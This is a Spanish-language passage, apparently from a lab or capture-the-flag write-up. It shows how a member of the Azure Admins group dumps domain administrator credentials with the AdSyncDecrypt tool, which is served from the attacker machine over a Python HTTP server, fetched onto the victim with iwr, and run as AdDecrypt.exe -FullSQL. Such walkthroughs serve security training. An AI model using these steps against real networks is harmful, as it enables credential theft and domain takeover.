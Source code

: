 Hay una vía a través de la cual listar las credenciales del usuario administrador del dominio si formamos parte del grupo Azure Admins:

https://github.com/VbScrub/AdSyncDecrypt/releases

- Nos descargamos el AdDeecrypt.zip
- Lo unzipeamos -> Nos da el ejecutable y mcrypt.dll

Una vez lo tenemos en la máquina atacante se lo compartimos a la máquina víctima:

- Creamos en máquina víctima carpeta temp en C:\ -> ``mkdir C:\temp`` y nos movemos a ella.

- Abrimos http server en máquina atacante para compartir ambos archivos:

``python3 -m http.server 80``

- Hacemos solicitud de los recursos desde máquina víctima:

``iwr http://10.10.14.8/AdDecrypt.exe -o AdDecrypt.exe``

``iwr http://10.10.14.8/mcrypt.dll -o mcrypt.dll``

![29](Images/29.png)

Una vez los tenemos en máquina víctima, seguimos las instrucciones del github:

- Nos dirigimos al directorio: C:\Program Files\Microsoft Azure AD Sync\Bin y ejecutamos:
  
``C:\Temp\AdDecrypt.exe -FullSQL``

![30](Images/30.png)
